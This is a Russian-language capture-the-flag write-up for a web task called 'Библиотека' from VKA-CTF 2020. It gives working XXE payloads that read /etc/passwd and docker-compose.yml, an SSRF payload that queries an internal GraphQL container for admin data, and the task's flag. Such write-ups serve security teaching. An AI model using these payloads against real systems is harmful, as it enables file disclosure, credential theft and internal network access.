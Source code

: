## Библиотека

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Библиотека | Web | 4-5 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> В этой [библиотеке](https://army-library.vkactf.tk) собраны лучшие произведения о войне. Совсем недавно разработчики добавили возможность создавать профили пользователей. Интересно, а какую литературу читает сам администратор?
>
> Файлы приложения находятся в `/src/`

### Решение

![](./images/1.PNG)

Обновление пользовательский данных в профиле уязвимо к XXE инъекции. Так как приложение отвечает новым именем пользователя, когда происходит ошибка на сервере, либо имя пользователя уже существует, то мы можем использовать это поле для инъекции. 

![](./images/img1.PNG)

Если изменить заголовок `content-type` на `application/xml`, а содержимое запроса на 
```xml
<root><new_name>I want XXE</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```
то мы получим успешное изменение пользовательских данных

![](./images/img2.PNG)

Так как приложение написано на языке `python`, то попробуем найти приложение на сервере и прочитать его.

Используя следующую полезную нагрузку можем прочитать список пользователь сервера `/etc/passwd`

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```

![](./images/img3.PNG)

Учитывая подсказку в описании таска и попытав немного удачи находим приложение `app.py`

Изучив логику приложения, замечаем, что оно общается с помощью `GraphQL` с другим приложением по адресу, указанному в переменной окружения `app.config["API"]`

Используя [это](https://apis.guru/graphql-voyager/) либо другие приложения (либо изучив код), можем узнать схемы запросов к этому `api`. Информация о пользователе получается с помощью запроса `findUser`, который использует в качестве аргумента имя пользователя
```
{findUser(name:"admin"){name password img description}}
```

Узнав логин и пароль администратора получаем доступ к его аккаунту

![](./images/img4.PNG)

Изучив подсказку, попробуем найти файл `docker-compose.yml`, чтобы узнать информацию о других контейнерах

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file://src/docker-compose.yml">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```

Видим, что все 3 контейнера находятся в одной сети `custom_network_library`

Исходя из этого, можем обратиться к контейнеру `database-dev` по его имени и получить информацию о пользователе `admin`

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://database-dev:5000/?query=%7BfindUser(name:%22admin%22)%7Bdescription%7D%7D">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```

![](./images/img5.PNG)

**Флаг:**

>vka{xx3_15_d4n9320u5_f02_7h3_4pp11c4710n}